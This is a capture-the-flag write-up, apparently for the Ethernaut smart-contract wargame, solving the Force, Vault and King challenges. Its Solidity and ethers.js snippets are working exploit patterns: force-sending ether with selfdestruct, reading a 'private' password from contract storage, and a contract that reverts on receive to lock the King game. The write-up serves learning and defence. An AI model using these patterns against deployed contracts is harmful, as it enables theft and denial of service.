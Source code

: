 ## 7. Force

The goal is to send ether to the contract.
Usually, sending ether to a contract requires a fallback function to be implemented, but one can force-send ether by calling the `selfdestruct` instruction on a contract containing ether.
This instruction bypasses any checks.

> The attacker can do this by creating a contract, funding it with 1 wei, and invoking `selfdestruct(victimAddress)`. No code is invoked in `victimAddress`, so it cannot be prevented. This is also true for block reward which is sent to the address of the miner, which can be any arbitrary address. Also, since contract addresses can be precomputed, ether can be sent to an address before the contract is deployed. - [ConsenSys - Secure Development Recommendations](https://consensys.github.io/smart-contract-best-practices/recommendations/#remember-that-ether-can-be-forcibly-sent-to-an-account)

A simple `selfdestruct` contract to solve this challenge looks like this:

```solidity
pragma solidity ^0.7.3;

contract ForceSend {

    constructor (address payable target) payable {
        require(msg.value > 0);
        selfdestruct(target);
    }
}
```

## 8. Vault

The password is stored in storage and everything on the blockchain is public.
The `private` visibility modifier only says that other contracts are not allowed to read it.
Using ethers.js we can still read the storage variable.
Note how the `password` is stored at storage slot 1.

```js
// password is at storage slot 1
const password = await eoa.provider.getStorageAt(challenge.address, 1)
console.log(`password = ${password} "${Buffer.from(password.slice(2), `hex`)}"`)
```

## 9. King

This challenge mimics the original King of the Ether game.
Your goal is to break anyone else calling the claim function.
The claim function sends tokens to our contract, so we just need to write a contract that does not accept tokens.

```solidity
function attack() external payable {
    require(msg.value == 1 ether, "please send exactly 1 ether");
    // claim throne
    // use call here instead of challenge.transfer because transfer
    // has a gas limit and runs out of gas
    (bool success, ) = payable(address(challenge)).call{value: msg.value}("");
    require(success, "External call failed");
}

receive() external payable {
    require(false, "cannot claim my throne!");
}
```
